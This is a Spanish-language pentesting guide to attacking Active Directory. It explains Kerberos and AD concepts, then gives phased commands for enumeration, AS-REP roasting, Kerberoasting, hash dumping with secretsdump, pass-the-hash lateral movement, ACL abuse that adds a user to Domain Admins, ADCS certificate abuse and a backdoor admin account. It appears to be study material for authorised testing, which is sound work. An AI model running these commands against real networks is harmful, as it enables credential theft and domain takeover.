

# Active Directory Parte 1

## Diagrama de Flujo del Ataque



## Fundamentos de Active Directory

### ¿Qué es Active Directory?

Active Directory (AD) es un servicio de directorio desarrollado por Microsoft. Se utiliza en redes empresariales para gestionar usuarios, equipos, grupos, y políticas de seguridad. Proporciona servicios de autenticación (validación de identidad) y autorización (control de acceso).

Conceptos clave:

* **Dominio**: Estructura lógica que agrupa objetos (usuarios, grupos, equipos).
* **Controlador de Dominio (DC)**: Servidor que gestiona el AD y responde a solicitudes de autenticación.
* **LDAP**: Protocolo de acceso a los datos del directorio.
* **Kerberos**: Protocolo de autenticación por defecto en entornos AD.

### Flujo de Autenticación Kerberos

1. **AS-REQ**: El cliente solicita un TGT (Ticket Granting Ticket) al KDC (Key Distribution Center).
2. **AS-REP**: El KDC verifica la identidad y entrega el TGT cifrado.
3. **TGS-REQ**: El cliente usa el TGT para pedir un ticket de servicio (TGS).
4. **TGS-REP**: El KDC entrega el TGS cifrado con la clave del servicio.
5. **AP-REQ**: El cliente presenta el TGS al servicio y obtiene acceso.

### **Tipos de Tickets**

| Tipo | Nombre                  | Descripción                            | Utilidad para el atacante                           |
| ---- | ----------------------- | -------------------------------------- | --------------------------------------------------- |
| TGT  | Ticket Granting Ticket  | Ticket de autenticación para pedir TGS | Permite persistencia sin necesidad de la contraseña |
| TGS  | Ticket Granting Service | Acceso a servicios específicos         | Puede extraerse y crackearse (Kerberoasting)        |

### Componentes Importantes en AD

* **krbtgt**: Cuenta que firma todos los tickets de Kerberos. Si se compromete, permite generar _Golden Tickets_.
* **SPN (Service Principal Name)**: Identifica servicios registrados en AD.
* **SID (Security Identifier)**: Identificador único para objetos.
* **UAC Flags**: Atributos que modifican el comportamiento de las cuentas.

### Grupos Privilegiados de Riesgo

| Grupo             | Riesgo                                    |
| ----------------- | ----------------------------------------- |
| Domain Admins     | Control total del dominio                 |
| Enterprise Admins | Control total del bosque                  |
| Schema Admins     | Modifican el esquema de AD                |
| DnsAdmins         | Pueden ejecutar código en el DC           |
| Backup Operators  | Acceden a archivos sensibles (SAM/SYSTEM) |
| Print Operators   | Pueden cargar DLLs maliciosas             |
| Account Operators | Administran cuentas de usuario            |

### UAC Flags Críticos

| Flag                         | Valor   | Descripción                          |
| ---------------------------- | ------- | ------------------------------------ |
| UF\_DONT\_REQUIRE\_PREAUTH   | 4194304 | Permite AS-REP Roasting              |
| UF\_TRUSTED\_FOR\_DELEGATION | 524288  | Delegación no restringida            |
| UF\_SMARTCARD\_REQUIRED      | 262144  | Requiere autenticación con smartcard |

### ACLs Peligrosas

| Permiso             | Descripción                               | Riesgo                                 |
| ------------------- | ----------------------------------------- | -------------------------------------- |
| GenericAll          | Control total sobre un objeto             | Añadir usuarios a grupos privilegiados |
| WriteDACL           | Modificar permisos de objetos             | Escalada mediante manipulación de ACLs |
| ForceChangePassword | Cambiar contraseñas sin conocer la actual | Resetear cuenta privilegiada           |
| AllExtendedRights   | Incluye cambio de contraseña              | Dominación sigilosa                    |

## Estructura Común de Active Directory

### Tipos de Usuarios

* **Usuarios estándar**: Cuentas de empleados comunes.
* **Usuarios privilegiados**: Personal de IT con permisos ampliados.
* **Cuentas de servicio**: Asociadas a servicios (por ejemplo, `sqlsvc`, `backupsvc`).

### Grupos Relevantes

* **Domain Admins**: Control total sobre el dominio.
* **Enterprise Admins**: Control a nivel de bosque.
* **Server Operators**: Acceso administrativo a servidores.
* **Print Operators**: Potencial para cargar DLLs.

### Tipos de Equipos

* **Workstations**: Equipos de usuario final.
* **Servers**: Infraestructura de aplicaciones.
* **Domain Controllers**: Servidores críticos con roles de autenticación y directorio.

### Objetos Especiales

* **GPOs (Group Policy Objects)**: Políticas aplicadas sobre usuarios y equipos.
* **OU (Organizational Units)**: Contenedores lógicos jerárquicos.
* **Sites**: División lógica para segmentar físicamente entornos AD.

## Flujo de Movimiento de un Pentester en AD

1. **Enumeración sin credenciales**
2. **Obtención de credenciales iniciales** (por phishing, AS-REP Roasting, Kerberoasting)
3. **Enumeración autenticada** (BloodHound, ACLs, SPNs)
4. **Movimiento lateral** (SMB, WinRM, Pass-the-Hash)
5. **Escalada de privilegios**
6. **Dominación del dominio** (Golden Ticket, DCSync, Skeleton Key)

### Acciones según lo descubierto

* **Tickets TGT válidos**: Se pueden usar para solicitar TGS y acceder a servicios.
* **SPNs expuestos**: Posibilidad de realizar Kerberoasting.
* **Cuentas sin preautenticación**: Objetivo para AS-REP Roasting.
* **Permisos de grupo detectados**: Añadirte a grupos privilegiados si es posible.
* **Delegaciones configuradas**: Impersonación de usuarios con `getST.py`.

### Requisitos Previos

* Acceso inicial (por ejemplo, shell o cuenta limitada).
* Conectividad a una red con AD.
* Kali Linux con herramientas instaladas:
  * `impacket`, `bloodhound`, `neo4j`, `ldapdomaindump`, `smbmap`, `enum4linux-ng`, `rpcclient`, `crackmapexec`, `kerbrute`, `evil-winrm`
  * Herramientas ofensivas: `responder`, `mitm6`, `ntlmrelayx`, `certipy`, `chisel`, `ligolo-ng`, `hashcat`, `john`

## Fases Técnicas

### Fase 1: Descubrimiento de red

```bash
nmap -Pn -n -sS -p 88,135,139,389,445,593,636,3268,3269 -T4 10.10.0.0/24 -oA ad_hosts
```

Identificación del DC:

```bash
nmap -p88 --script=krb5-enum-users <IP>
nslookup
> set type=SRV
> _ldap._tcp.dc._msdcs.dominio.local
```

### Fase 2: Enumeración sin credenciales

```bash
enum4linux-ng <IP>
smbmap -H <IP>
smbclient -L //<IP> -N
rpcclient -U "" -N <IP>
```

LDAP sin autenticación:

```bash
ldapsearch -x -H ldap://<IP> -b "dc=dominio,dc=local"
ldapdomaindump ldap://<IP> --no-auth
```

### Fase 3: Enumeración de usuarios

```bash
kerbrute userenum -d dominio.local users.txt --dc <IP>
```

### Fase 4: AS-REP Roasting

```bash
GetNPUsers.py dominio.local/ -no-pass -usersfile valid_users.txt -dc-ip <IP>
hashcat -m 18200 hash.txt rockyou.txt --force
```

### Fase 5: Kerberoasting

```bash
GetUserSPNs.py dominio.local/usuario:password -dc-ip <IP>
hashcat -m 13100 hash.txt rockyou.txt --force
```

### Fase 6: Extracción de información autenticada

```bash
ldapdomaindump ldap://<IP> -u dominio\\usuario -p contraseña
```

### Fase 7: Extracción de hashes

```bash
secretsdump.py dominio.local/usuario:contraseña@<IP>
# o con hash
secretsdump.py dominio.local/usuario@<IP> -hashes :<NTLMHASH>
```

### Fase 8: Movimiento lateral

```bash
psexec.py dominio.local/usuario:pass@<IP>
smbexec.py dominio.local/usuario:pass@<IP>
wmiexec.py dominio.local/usuario@<IP> -hashes :<NTLM>
```

WinRM:

```bash
evil-winrm -i <IP> -u usuario -p contraseña
# o con hash
-H <NTLMHASH>
```

### Fase 9: BloodHound

Recolectar desde Windows:

```powershell
Import-Module .\SharpHound.ps1
Invoke-BloodHound -CollectionMethod All -ZipFileName loot.zip
```

Desde Kali:

```bash
bloodhound-python -u usuario -p contraseña -d dominio.local -dc-ip <IP> --collection ALL
```

### Fase 10: Abuso de Delegaciones

Constrained Delegation:

```bash
getST.py -spn cifs/servidor.dominio.local -impersonate objetivo dominio.local/usuario:pass -dc-ip <IP>
psexec.py -k -no-pass dominio.local/objetivo@servidor
```

Unconstrained Delegation:

* Usar Mimikatz (`sekurlsa::tickets`) para extraer TGT.

#### Fase 11: Abuso de ACLs

Añadir miembro a grupo:

```bash
net rpc group addmem "Domain Admins" usuario -S <IP> -U atacante%contraseña
```

Cambiar contraseña de otra cuenta:

```bash
net rpc changepassword victima -U atacante%pass -S <IP>
```

### Fase 12: Ataques a ADCS

Enumerar:

```bash
certipy find -u usuario -p contraseña -target <IP> -dc-ip <IP>
```

Solicitar certificado abusando de plantilla vulnerable:

```bash
certipy req -u usuario -p pass -ca ca.nombre.local -template vulnerable_template -dc-ip <IP> -target <IP>
```

## Persistencia y Limpieza

Crear cuenta:

```bash
net user backdoor Pass123! /add
net localgroup "Administradores" backdoor /add
```

Eliminar evidencia:

```bash
net user backdoor /del
```

## Recursos

* Añade entradas al `/etc/hosts` si es necesario para resolver nombres internos.
* Usa `klist`, `ktutil`, `export KRB5CCNAME` para manejar tickets Kerberos.
* Apóyate en herramientas como `ticketConverter.py`, `getST.py`, BloodHound y Certipy.
